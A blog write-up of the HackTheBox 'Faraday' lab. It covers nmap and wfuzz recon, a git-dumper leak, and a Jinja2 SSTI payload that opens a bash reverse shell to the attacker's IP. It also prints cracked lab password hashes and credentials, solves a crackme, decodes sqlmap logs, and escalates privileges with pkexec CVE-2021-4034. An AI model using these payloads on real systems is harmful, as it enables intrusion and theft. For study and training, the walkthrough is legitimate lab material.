








    Writeup HackTheBox Faraday                             


XploitOverload
========

* * *

* * *

*   [Fortresses](https://s1l3ntc0nquer.github.io/web/fortresses "XploitOverload")

*   [GitHub](https://github.com/s1l3ntc0nquer/XploitOverload "Github")
*   [Linkedin](https://www.linkedin.com/in/kalpesh11111/ "Linkedin")
*   [Instagram](https://instagram.com/XploitOverload "Instagram")
*   [Email](mailto:supremehacker.1st@gmail.com "Email")

  

### Content

  

*   [Warmup](https://s1l3ntc0nquer.github.io/web/fortresses/faraday/#flag1)
*   [Let's count](https://s1l3ntc0nquer.github.io/web/fortresses/faraday/#flag2)
*   [Time to play](https://s1l3ntc0nquer.github.io/web/fortresses/faraday/#flag3)
*   [Careful read](https://s1l3ntc0nquer.github.io/web/fortresses/faraday/#flag4)
*   [Administrator View](https://s1l3ntc0nquer.github.io/web/fortresses/faraday/#flag5)
*   [Hidden pasta](https://s1l3ntc0nquer.github.io/web/fortresses/faraday/#flag6)
*   [Root KIt](https://s1l3ntc0nquer.github.io/web/fortresses/faraday/#flag7)

#### HackTheBox


Faraday
-------

  

### Recon
As usual initial enumeration is required to port scanning and get relevant information. I always use `nmap` to scan network.
```bash
    ❯ nmap 10.13.37.14
    Nmap scan report for 10.13.37.14  
    PORT     STATE SERVICE
    22/tcp   open  ssh
    80/tcp   open  http
    8888/tcp open  sun-answerbook
```

On a port `8888` service is running and when I tried to connect it, asks for `creds`
```bash
    ❯ netcat 10.13.37.14 8888
    Welcome to FaradaySEC stats!!!  
    Username: test
    Password:
```
### Warmup

#### FARADAY{ehlo\_@nd\_w3lcom3!}

##### Web Enumeration
The web service presents a login page requesting credenciales. However, user `registration` is enabled, potentially allowing account creation and further access to the application. This could be leveraged for enumeration, privilege escalation, or other attack vectors.

[




](./XploitOverload_HackTheBox_Faraday_files/1.png)

So, I used `test`:`test`  to register on web for further movement 

[




](./XploitOverload_HackTheBox_Faraday_files/2.png)

Now we can login the user we created by using `creds` which we registered

[




](./XploitOverload_HackTheBox_Faraday_files/3.png)

After logging in, we were asked to configure an `SMTP` server that would receive system alerts. We set up our own `host` with port `25`, which could allow us to intercept or manipulate the emails sent by the system.

[




](./XploitOverload_HackTheBox_Faraday_files/4.png)

Now we are allowed to choose a `name` from the list of servers that come by`default`

[




](./XploitOverload_HackTheBox_Faraday_files/5.png)

However, if we intercept the request, we can see that the name is managed from the profile with a parameter called `name`, allowing us to modify it to `any` value.

[




](./XploitOverload_HackTheBox_Faraday_files/6.png)

Now we are redirected to message-sending field, several users listed by default. To probe the functionality, we send message `test` into the remaining fields and observe the system's response.

[




](./XploitOverload_HackTheBox_Faraday_files/7.png)

We have to keep in mind that we previously configured an SMTP server on port `25` to our host. This means we can easily set up a listener using `Python` to capture any incoming messages.
```bash
    ❯ sudo python3 -m smtpd -c DebuggingServer -n 10.10.16.86:25  
```    

  
We send the message through the web interface, and as soon as it goes through, our `SMTP` listener `catches` an alert. Along with the message details, it also exposes something critical—the `flag`.
```bash
    ❯ sudo python3 -m smtpd -c DebuggingServer -n 10.10.16.86:25  
    ---------- MESSAGE FOLLOWS ----------
    b'Subject: test'
    b'X-Peer: 10.13.37.14'
    b''
    b'An event was reported at JohnConnor:'
    b'test'
    b'Here is your gift FARADAY{ehlo_@nd_w3lcom3!}'
    ------------ END MESSAGE ------------
 ```   

  


### Let's count

#### FARADAY{7x7\_1s\_n0t\_@lw4ys\_49}

##### Exploitation  

By brute-forcing directories with `wfuzz`, we discover the presence of a `.git` directory. This indicates that an entire `project` repository is exposed, potentially allowing us to retrieve its contents and uncover sensitive information.

```bash
    ❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.13.37.14/FUZZ -t 100 --hc 404  
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.13.37.14/FUZZ
    Total requests: 4713
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================
    
    000000012:   200        10 L     58 W       3892 Ch     ".git/index"
    000000010:   200        1 L      2 W        23 Ch       ".git/HEAD"
    000000011:   200        8 L      20 W       141 Ch      ".git/config"
    000001212:   302        3 L      24 W       262 Ch      "configuration"
    000002511:   200        73 L     125 W      1847 Ch     "login"
    000002525:   302        3 L      24 W       218 Ch      "logout"
    000003304:   302        3 L      24 W       250 Ch      "profile"
    000003799:   200        81 L     129 W      1938 Ch     "signup"
  ```  

  

Using `git-dumper`we can dump all the files from the .git project

```bash
    ❯ git-dumper http://10.13.37.14/.git/ dump
    [-] Testing http://10.13.37.14/.git/HEAD [200]
    [-] Testing http://10.13.37.14/.git/ [404]
    [-] Fetching common files
    ..............................................  
 ```   

  

This will create a new directory called `dump`, in the dumped project we can find the base from which `web`it is running, we see the`app.py`

```bash
    dump ❯ ls -l 
    drwxr-xr-x kali kali 4.0 KB Thu Apr 20 23:17:21 2023  static
    drwxr-xr-x kali kali 4.0 KB Thu Apr 20 23:17:22 2023  templates
    .rw-r--r-- kali kali 8.0 KB Thu Apr 20 23:20:57 2023  app.py
    .rw-r--r-- kali kali 233 B  Thu Apr 20 23:17:20 2023  commit-meta.txt
    .rw-r--r-- kali kali 203 B  Thu Apr 20 23:17:20 2023  requirements.txt  
 ```   

  

Reading it `app.py`we can see what it does with the input about `/profile`and the redirection that `/sendMessage`sends data to the server `SMTP`, there is a vulnerability that is obvious and it is the use of `render_template_string`when sending data to the server

```python
    @app.route('/profile')
    @login_required
    def profile():
        name = request.args.get('name', '')
        if name:
            if not current_user.message:
                message = MessageModel(server=name, user_id=current_user.id)
                db.session.add(message)
                db.session.commit()
            else:
                current_user.message[0].server = name
                db.session.commit()
            return redirect('/sendMessage')
    
        return render_template('base.html')
    
    @app.route('/sendMessage', methods=['POST', 'GET'])
    @login_required
    def sendMessage():
        if request.method == "POST":
            if current_user.config and current_user.message:
                smtp = current_user.config[0]
                message = current_user.message[0]
                message.dest = request.form['dest']
                message.subject = request.form['subject']
                message.body =  "Subject: %s\r\n" % message.subject + render_template_string(template.replace('SERVER', message.server), message=request.form['body'], tinyflag=os.environ['TINYFLAG'])  
                db.session.commit()
                try:
                    server = smtplib.SMTP(host=smtp.host, port=smtp.port)
                    if smtp.smtp_username != '':
                        server.login(smtp.smtp_username, smtp.smtp_password)
                    server.sendmail('no-reply@faradaysec.com', message.dest, message.body)
                    server.quit()
                except:
                    return render_template('bad-connection.html')
            elif not current_user.config:
                return redirect('/configuration')
            else:
                return redirect('/profile')
        
        return render_template('sender.html')
    

```

The idea is simple, we can test a basic payload for `SSTI`what `{{7*7}}`this is by pointing it in the URL `/profile`with the parameter `name`like this

    http://10.13.37.14/profile?name={{7*7}}  
    

  

When opening it in the browser it redirects us to send the `message`, we send any

[


](./XploitOverload_HackTheBox_Faraday_files/7.png)

When receiving the alert we find that we have a problem, it `{{` is deleted so the response is not represented `output`as we expected.
```html
    ---------- MESSAGE FOLLOWS ----------
    b'Subject: test'
    b'X-Peer: 10.13.37.14'
    b''
    b'An event was reported at 7*7}}:'
    b'test'
    b'Here is your gift FARADAY{ehlo_@nd_w3lcom3!}'  
    ------------ END MESSAGE ------------
```    

  
Reading an [article](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) about the vulnerability we found some alternatives to apply the execution of `commands` at the end we have the following `payload` which will be in charge of executing a command that will send us a `reverse shell` with bash

```bash
     a   
```    

  

When `urlencoding` the payload and sending it in the `name` parameter it would look something like this

```bash
    http://10.13.37.14/profile?name={%25+if+request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.86/443+0>%261"')['read']()+%3d%3d+'chiv'+%25}+a+{%25+endif+%25}  
```    


When opening it, it will redirect us to send the `message` and when sending it we receive a `revshell` as `root` although it seems that it is in a `container`, although we can see the `flag`

```bash
    ❯ sudo netcat -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.13.37.14
    root@98aa0f47eb96:/app# id
    uid=0(root) gid=0(root) groups=0(root)  
    root@98aa0f47eb96:/app# hostname -I
    172.22.0.2 
    root@98aa0f47eb96:/app# cat flag.txt 
    FARADAY{7x7_1s_n0t_@lw4ys_49}
    root@98aa0f47eb96:/app#
```    

  

  

### Time to play

#### FARADAY{d0ubl3\_@nd\_f1o@t\_be@uty}

##### Post Enumeration  

In `/app` we can see several files and directories, including the `db` directory

```bash
    root@98aa0f47eb96:/app# ls -l
    drwxr-xr-x 2 root root 4096 Jul 21  2021 __pycache__
    -rwxr-xr-x 1 root root 8523 Jul 21  2021 app.py
    drwxr-xr-x 2 root root 4096 Apr 21 03:25 db
    -rw-r--r-- 1 root root   30 Jul 16  2021 flag.txt
    -rw-r--r-- 1 root root  220 Jul 16  2021 requirements.txt  
    drwxr-xr-x 3 root root 4096 Jul 16  2021 static
    drwxr-xr-x 2 root root 4096 Jul 21  2021 templates
    -rw-r--r-- 1 root root   71 Jul 16  2021 wsgi.py
    root@98aa0f47eb96:/app#
 ```   

  

In the `db` directory we can see a file that looks interesting `database.db`

```bash
    root@98aa0f47eb96:/app/db# ls  
    database.db
    root@98aa0f47eb96:/app/db#
```    

  

We can pass it to our team using `base64`, in the db with `sqlite` we can see a table called `user_model` which contains `users` and `hashes`
```bash
    ❯ sqlite3 database.db
    SQLite version 3.40.1 2022-12-28 14:03:47
    Enter ".help" for usage hints.
    sqlite> .tables
    message_model  smtp_config    user_model   
    sqlite> select * from user_model;
    1|admin@faradaysec.com|administrator|sha256$GqgROghu45Dw4D8Z$5a7eee71208e1e3a9e3cc271ad0fd31fec133375587dc6ac1d29d26494c3a20f  
    2|octo@faradaysec.com|octo|sha256$gqsmQ2210dEMufAk$98423cb07f845f263405de55edb3fa9eb09ada73219380600fc98c54cd700258
    3|pasta@faradaysec.com|pasta|sha256$MsbGKnO1PaFa3jhV$6b166f7f0066a96e7565a81b8e27b979ca3702fdb1a80cef0a1382046ed5e023
    4|root@faradaysec.com|root|sha256$L2eaiLgdT73AvPij$dc98c1e290b1ec3b9b8f417a553f2abd42b94694e2a62037e4f98d622c182337
    5|pepe@gmail.com|pepe|sha256$9NzZrF4OtO9r0nFx$c3aa1b68bea55b4493d2ae96ec596176890c4ccb6dedf744be6f6bdbd652255d
    6|nobody@gmail.com|nobody|sha256$E2bUlSPGhOi2f5Mi$2982efbc094ed13f7169477df7c078b429f60fe2155541665f6f41ef42cd91a1
    7|test@test.test|test|sha256$oHEEZCzsOMOkElnD$5469582922a8c5dfd7105e2b1898de926c56445c06eadafdd19680a6f0f37a6c
    sqlite>
```    

  
##### Password Spraying
To work easily we will save the data in a file called `hashes` which will contain only `users` and `hashes` separated by `:` in the `user:hash` format
```bash
    ❯ cat hashes          
    administrator:sha256$GqgROghu45Dw4D8Z$5a7eee71208e1e3a9e3cc271ad0fd31fec133375587dc6ac1d29d26494c3a20f  
    octo:sha256$gqsmQ2210dEMufAk$98423cb07f845f263405de55edb3fa9eb09ada73219380600fc98c54cd700258
    pasta:sha256$MsbGKnO1PaFa3jhV$6b166f7f0066a96e7565a81b8e27b979ca3702fdb1a80cef0a1382046ed5e023
    root:sha256$L2eaiLgdT73AvPij$dc98c1e290b1ec3b9b8f417a553f2abd42b94694e2a62037e4f98d622c182337
    pepe:sha256$9NzZrF4OtO9r0nFx$c3aa1b68bea55b4493d2ae96ec596176890c4ccb6dedf744be6f6bdbd652255d
    nobody:sha256$E2bUlSPGhOi2f5Mi$2982efbc094ed13f7169477df7c078b429f60fe2155541665f6f41ef42cd91a1
    test:sha256$oHEEZCzsOMOkElnD$5469582922a8c5dfd7105e2b1898de926c56445c06eadafdd19680a6f0f37a6c
 ```   

  

We can't crack it directly with `John`, so we'll convert the words from the `rockyou` wordlist into `hashes`. By comparing each generated hash with the one we have, if we find a match, we get the `password`.
```bash
    #!/usr/bin/python3
    from werkzeug.security import check_password_hash
    from pwn import log
    
    hashes = open("hashes", "r")
    
    for hash in hashes:
        hash = hash.strip()
        user = hash.split(":")[0]
        hash = hash.split(":")[1]
    
        with open("/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt", "r", errors="ignore") as file:  
            for line in file:
                password = line.strip()
                if check_password_hash(hash, password):
                    log.success(f"Credencial valida: {user}:{password}")
```    

  

We got `5` valid `passwords` and cracked several `hashes` by executing the `exploit.py`
```bash
    ❯ python3 exploit.py
    [+] Credencial valida: pasta:antihacker
    [+] Credencial valida: pepe:sarmiento
    [+] Credencial valida: administrator:ihatepasta  
    [+] Credencial valida: octo:octopass
    [+] Credencial valida: test:test
 ```   

  
##### Getting shell (Initial accesss)

The `pasta` ones seem to be valid for `ssh`, we get a shell on the real machine
```bash
    ❯ ssh pasta@10.13.37.14
    pasta@10.13.37.14's password: antihacker
    pasta@erlenmeyer:~$ id
    uid=1001(pasta) gid=1001(pasta) groups=1001(pasta)
    pasta@erlenmeyer:~$ hostname -I  
    10.13.37.14 172.17.0.1 172.22.0.1
    pasta@erlenmeyer:~$
 ```   

  

We haven't found the `flag` yet, but we do see a build named `crackme`, which might be worth analyzing for potential vulnerabilities or hidden data.
```bash
    pasta@erlenmeyer:~$ ls  
    crackme
    pasta@erlenmeyer:~$
```    

  

We pull the crackme binary using scp over our SSH connection. Running it prompts us to enter the flag, but if we feed it anything random, it just shuts down—no hints, no mercy.
```bash
    ❯ sshpass -p antihacker scp pasta@10.13.37.14:crackme .  
    
    ❯ ./crackme
    Insert flag: test
 ```   

  
We open it and decompile it using `ida` where we can see some functions including the base, `main` which on the right we find all the code in `C`

[




](./XploitOverload_HackTheBox_Faraday_files/8.png)

We'll dive straight into the main function, where the real action happens. A quick look already reveals some interesting details worth investigating
```cpp
    int __fastcall main(int argc, const char **argv, const char **envp)
    {
      char input; // al
      double result; // xmm0_8
      double y; // [rsp+10h] [rbp-48h]
      double x; // [rsp+18h] [rbp-40h]
      __int128 part1; // [rsp+20h] [rbp-38h] BYREF
      __int64 part2; // [rsp+30h] [rbp-28h]
      double part3; // [rsp+38h] [rbp-20h]
      unsigned __int64 stack_cookie; // [rsp+48h] [rbp-10h]
    
      stack_cookie = __readfsqword(0x28u);
      __printf_chk(1LL, "Insert flag: ", envp);
      __isoc99_scanf("%32s", &part1);
      input = BYTE3(part3);
      HIWORD(part2) = __ROL2__(HIWORD(part2), 8);
      BYTE3(part3) = HIBYTE(part3);
      HIBYTE(part3) = input;
      if ( part1 == __PAIR128__('@_3lbu0d', '{YADARAF') && LOBYTE(part3) == '_' && part2 == '@to1f_dn' )  
      {
        y = part3;
        x = *((double *)&part1 + 1);
        __printf_chk(1LL, "x: %.30lf\n", *((double *)&part1 + 1));
        __printf_chk(1LL, "y: %.30lf\n", COERCE_DOUBLE('@to1f_dn'));
        __printf_chk(1LL, "z: %.30lf\n", y);
        result = x * 326.9495605207693 * (x * 326.9495605207693) / y;
        round_double(result, 30);
        __printf_chk(1LL, "%.30lf\n", result);
        round_double(result, 30);
        if ( fabs(result - 4088116.817143337) >= 0.0000001192092895507812 )
          puts("Try Again");
        else
          puts("Well done!");
      }
      if ( __readfsqword(0x28u) != stack_cookie )
        start();
      return 0;
    }
    
```
  

The first part of the `flag` can be seen directly in the `main` function, although some `characters` are missing to complete the entire text string.
```c
    FARADAY{d0ubl3_@nd_f1o@t_  
 ```   

  

What we can do is bruteforce the possible characters where the double byte is `_` and the characters `3` and `7` are exchanged, until the condition is met.
```python
    #!/usr/bin/python3
    from itertools import product
    import struct, string
    
    flag = "FARADAY{d0ubl3_@nd_f1o@t_"
    
    characters = string.ascii_lowercase + string.punctuation
    
    for combination in product(characters, repeat=5):
        chars = "".join(combination).encode()
        value = b"_" + chars[:2] + b"}" + chars[2:] + b"@"
        result = 1665002837.488342 / struct.unpack("d", value)[0]
    
        if abs(result - 4088116.817143337) <= 0.0000001192092895507812:  
            value = chars[:2] + b"@" + chars[2:] + b"}"
            print(flag + value.decode())
            break
    
```
  

When executed, it bruteforces the characters until the `condition` is met, when it is, it exchanges the bytes and adds the `flag` that we had before to obtain it.
```bash
    ❯ python3 exploit.py
    FARADAY{d0ubl3_@nd_f1o@t_be@uty}  
```    

  

  

### Careful read

#### FARADAY{@cc3ss\_10gz\_c4n\_b3\_use3fu111}

##### Lateral Movement 

We have previously obtained more `creds`, when searching for other valid one's for `ssh` we find those of the `administrator` user, we obtain another shell on the machine
```bash
    ❯ sshpass -p ihatepasta ssh administrator@10.13.37.14
    administrator@erlenmeyer:~$ id
    uid=1000(administrator) gid=1000(administrator) groups=1000(administrator)  
    administrator@erlenmeyer:~$ hostname -I
    10.13.37.14 172.17.0.1 172.22.0.1
    administrator@erlenmeyer:~$
``` 

  

Among the files that we own we find the Apache `access.log` file, which a normal user should not generally be able to read.
```bash
    administrator@erlenmeyer:~$ find / -user administrator 2>/dev/null | grep -vE "/proc|/sys|/home|/run"  
    /dev/pts/0
    /var/mail/administrator
    /var/log/apache2/access.log
    administrator@erlenmeyer:~$
 ```   

  

In it we find several `logs`facts `sqlmap`about the archive`/update.php`
```bash
    administrator@erlenmeyer:~$ cat /var/log/apache2/access.log | grep sqlmap | head -n1
    4969 192.168.86.1 - - [20/Jul/2021:00:00:00 -0700] "GET /update.php?keyword=python%27%20WHERE%201388%3D1388%20AND%20%28SELECT%207036%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28table_name%20AS%20NCHAR%29%2C0x20%29%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%3D0x6d7973716c%20LIMIT%2028%2C1%29%2C3%2C1%29%29%3E110%2C0%2C3%29%29%29%29%29pqBK%29--%20EZas&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"  
    administrator@erlenmeyer:~$
 ```   

  

We notice a pattern in certain lines, such as `))>96`, where `))` is followed by some characters and a decimal number. Our approach is to extract these lines, `urldecode` them, and convert each decimal value into readable `text` using `chr()`. This could reveal hidden data or encoded messages within the logs
```python
    #!/usr/bin/python3
    import re, urllib.parse
    
    with open("/var/log/apache2/access.log") as file:  
        for line in file:
            line = urllib.parse.unquote(line)
            if not "update.php" in line:
                continue
            regex = re.search("\)\)!=(\d+)", line)
            if regex:
                decimal = int(regex.group(1))
                print(chr(decimal), end="")
    
```
  

When running the script, we get a significant amount of `output`. Scanning through it, we finally spot what we’ve been hunting for—the `flag`
```bash
    administrator@erlenmeyer:~$ python3 exploit.py
    ....FARADAY{@cc3ss_10gz_c4n_b3_use3fu111}....   
    administrator@erlenmeyer:~$
 ```   

  

  

### Administrator View

#### FARADAY{\_\_1s\_pR1nTf\_Tur1ng\_c0mPl3t3?\_\_}

##### Priv Escalation 
  

Searching for files with privileges `suid`we found a fairly classic one,`pkexec`
```bash
    administrator@erlenmeyer:~$ find / -perm -4000 2>/dev/null | grep -v snap  
    /usr/bin/umount
    /usr/bin/mount
    /usr/bin/fusermount
    /usr/bin/passwd
    /usr/bin/gpasswd
    /usr/bin/su
    /usr/bin/at
    /usr/bin/sudo
    /usr/bin/pkexec
    /usr/bin/chsh
    /usr/bin/chfn
    /usr/bin/newgrp
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/openssh/ssh-keysign
    administrator@erlenmeyer:~$ ls -l /usr/bin/pkexec
    -rwsr-xr-x 1 root root 31032 May 26  2021 /usr/bin/pkexec
    administrator@erlenmeyer:~$
 ```   

  

[We can use a CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034) exploit to become `root`and read the flag
```bash
    administrator@erlenmeyer:/tmp$ python3 exploit.py  
    [+] Creating shared library for exploit code.
    [+] Calling execve()
    # whoami
    root
    # hostname -I
    10.13.37.14 172.17.0.1 172.22.0.1
    # cat /root/flag.txt
    FARADAY{__1s_pR1nTf_Tur1ng_c0mPl3t3?__}
    #
```    

  

  

### Hidden pasta

#### FARADAY{C\_1s-0ld-Bu7\_n0t-0bs0|3te}

  

Port `8888` was open and asked for `creds`. Since we had several from earlier, we tried the same ones we used for SSH. It worked, and just like that, we got the flag.

```bash
    ❯ netcat 10.13.37.14 8888
    Welcome to FaradaySEC stats!!!
    Username: pasta
    Password: antihacker
    access granted!!!
    FARADAY{C_1s-0ld-Bu7_n0t-0bs0|3te}  
 ```   

  

  

### Root KIt

#### FARADAY

  

In /root we find a .txt file that seems to be the output of `chkrootkit`, in this file it shows us that the rootkit `Reptile`is present on this machine
```bash
    root@erlenmeyer:~# cat chkrootkit.txt
    Checking `amd'...                                           not found
    Checking `biff'...                                          not found
    Checking `fingerd'...                                       not found
    Checking `gpm'...                                           not found
    Checking `inetdconf'...                                     not found
    Checking `identd'...                                        not found
    Checking `mingetty'...                                      not found
    Checking `named'...                                         not found
    Checking `pop2'...                                          not found
    Checking `pop3'...                                          not found
    Checking `rpcinfo'...                                       not found
    Checking `rlogind'...                                       not found
    Checking `rshd'...                                          not found
    Checking `sshd'...                                          not found
    Checking `tcpd'...                                          not found
    Checking `telnetd'...                                       not found
    Checking `timed'...                                         not found
    Checking `traceroute'...                                    not found
    Searching for sniffer's logs, it may take a while...        nothing found
    Searching for rootkit HiDrootkit's default files...         nothing found
    Searching for rootkit t0rn's default files...               nothing found
    Searching for t0rn's v8 defaults...                         nothing found
    Searching for rootkit Lion's default files...               nothing found
